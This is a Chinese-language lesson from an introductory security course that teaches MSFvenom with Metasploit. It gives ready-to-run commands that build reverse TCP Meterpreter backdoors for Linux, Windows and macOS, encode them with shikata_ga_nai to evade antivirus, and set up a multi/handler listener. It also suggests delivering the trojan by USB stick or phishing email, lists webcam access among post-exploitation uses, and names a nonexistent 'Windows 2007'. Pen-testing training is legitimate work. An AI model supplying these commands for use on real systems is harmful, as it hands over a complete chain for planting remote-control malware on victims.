


# 网络安全入门：P34：MSFvenom生成Payload教程 🛠️

在本节课中，我们将学习一个在渗透测试和CTF比赛中至关重要的工具——MSFvenom。我们将了解它的基本概念、工作原理以及如何使用它生成针对不同操作系统的Payload（有效载荷），最终实现对目标机器的控制。

## 概述：什么是MSFvenom？

MSFvenom是Metasploit框架中的一个强大工具，它集成了`msfpayload`和`msfencode`的功能。简单来说，**MSFvenom是一个生成木马程序的软件**。它的作用可以比喻为：在目标系统（房子）里留下一把只有攻击者知道的“备用钥匙”（木马）。当目标系统运行这个木马后，攻击者就能获得访问权限，实现远程控制。

要使用MSFvenom，你需要准备一个攻击环境，通常包括攻击机（如Kali Linux）和靶机（如低版本Windows系统）。相关软件资源可通过课程提供的渠道获取。

## MSFvenom核心概念与参数解析

上一节我们介绍了MSFvenom的基本定义，本节中我们来看看它的核心功能和使用方法。

MSFvenom的核心是生成**Payload**。一个Payload本质是一段恶意代码，用于在目标机器上执行并建立连接。其基本利用思路是：
1.  找到目标系统的漏洞点。
2.  使用MSFvenom生成针对性的木马文件。
3.  通过某种方式（如下载、上传）让木马在靶机上运行。
4.  在攻击机上启动监听，等待靶机“上线”。
5.  一旦连接建立，攻击者就能通过Metasploit的`meterpreter`会话控制目标机器。

MSFvenom拥有众多参数，初学者无需全部记忆，掌握常用即可。以下是几个关键参数：

*   **`-p`**：指定要使用的Payload类型。这是**必须参数**。
*   **`-l`**：列出所有可用的模块（如Payload、编码器等）。
*   **`-f`**：指定输出文件的格式（如exe, elf, raw等）。
*   **`-e`**：指定编码方式，用于绕过杀毒软件（AV）或入侵检测系统（IDS）。
*   **`-a`**：指定目标系统的CPU架构（如x86, x64）。
*   **`--platform`**：指定目标操作系统平台（如windows, linux）。

你可以通过命令 `msfvenom -h` 查看所有参数的详细说明。

## 生成不同平台的Payload实例

了解了核心参数后，我们通过具体例子来看看如何生成针对不同操作系统的Payload。

以下是生成三种常见系统Payload的命令示例：

**1. 针对Linux系统**
此命令生成一个Linux下的反向TCP连接木马。
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf > shell.elf
```
*   `-p linux/x86/meterpreter/reverse_tcp`: 指定Payload为Linux x86架构的反向TCP Meterpreter。
*   `LHOST=192.168.1.100`: 指定攻击机的IP地址。
*   `LPORT=4444`: 指定攻击机的监听端口。
*   `-f elf`: 指定输出格式为ELF（Linux的可执行文件，类似于Windows的.exe）。
*   `> shell.elf`: 将生成的Payload保存到名为`shell.elf`的文件中。

**2. 针对Windows系统**
此命令生成一个Windows下的反向TCP连接木马。
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > shell.exe
```
参数含义与Linux示例类似，平台和输出格式改为Windows对应的`exe`。

**3. 针对macOS系统**
此命令生成一个macOS下的反向TCP连接木马。
```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f macho > shell.macho
```
这里使用了`osx`平台和`macho`输出格式。

**重要提示**：在生成Windows Payload时，如果需要指定32位（x86）架构，应使用 `-a x86` 参数，而不是在`-p`中指定。例如：
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -a x86 -f exe -e x86/shikata_ga_nai > shell.exe
```
其中 `-e x86/shikata_ga_nai` 是一种编码方式，用于增加免杀能力。注意避免使用80等常见端口，以防冲突。

## 监听与上线：完成攻击闭环

木马文件生成后，我们需要在攻击机上设置监听，等待靶机执行木马后主动连接回来。

以下是使用Metasploit框架设置监听器的步骤：

1.  启动Metasploit控制台：`msfconsole`
2.  使用`exploit/multi/handler`监听模块：
    ```bash
    use exploit/multi/handler
    ```
3.  设置Payload，**必须与生成木马时使用的Payload完全一致**：
    ```bash
    set payload windows/meterpreter/reverse_tcp
    ```
4.  设置攻击机IP（LHOST）和端口（LPORT），**必须与生成木马时指定的值一致**：
    ```bash
    set LHOST 192.168.1.100
    set LPORT 4444
    ```
5.  开始监听。有两种方式：
    *   **`run`** 或 **`exploit`**：在前台运行并等待连接。
    *   **`exploit -j`**：在后台运行（`-j` 表示 job）。之后可以通过 `jobs` 命令查看和管理后台任务。

当监听启动后，状态显示为“正在等待连接”。此时，将之前生成的`shell.exe`文件通过任何方式（如U盘、钓鱼邮件、漏洞上传）放置到靶机（例如Windows 2007系统）上并运行。

一旦靶机上的木马被执行，攻击机的监听会话就会接收到反向连接，并成功建立一个`meterpreter`会话。通过这个会话，攻击者可以执行各种后渗透操作，例如获取系统信息、提权、文件操作、屏幕截图甚至开启摄像头等。

## 总结与下节预告

本节课中，我们一起学习了MSFvenom的核心用途——生成跨平台的Payload木马。我们掌握了其基本命令参数，并通过实例演示了如何为Linux、Windows和macOS系统生成反向TCP连接的后门程序。最后，我们学习了如何在Metasploit中配置对应的监听器，完成从生成木马到目标上线的完整攻击链。

简单回顾，MSFvenom的关键在于正确指定**Payload类型（`-p`）**、**输出格式（`-f`）**、**连接地址和端口（LHOST, LPORT）**，并在监听端保持配置一致。





下一节课，我们将进行实战操作，带领大家生成一个Web类型的Payload，进一步巩固所学知识。课程所需资料已备好，有需要者可联系获取。我们下节课再见。